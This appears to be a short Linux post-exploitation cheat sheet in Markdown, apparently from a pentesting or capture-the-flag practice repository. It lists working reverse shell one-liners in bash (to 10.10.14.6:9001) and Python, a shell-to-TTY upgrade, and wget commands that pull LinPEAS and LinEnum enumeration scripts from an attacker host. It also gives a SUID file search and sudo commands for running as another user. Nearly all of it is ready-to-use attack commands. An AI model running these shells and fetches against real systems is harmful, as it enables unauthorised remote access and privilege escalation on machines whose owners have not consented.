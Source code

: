 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


# LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6:800/linpeas.sh
```
```
./linpeas.sh > peas.txt
```

# LinEnum

```
wget http://10.10.14.6:800/LinEnum.sh
```
```
./LinEnum.sh -t -r enum.txt
```
# Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


## Run command as specific user
```
sudo -u USER command
```

## Start shell as specific user
```
sudo -u USER bash -i
```
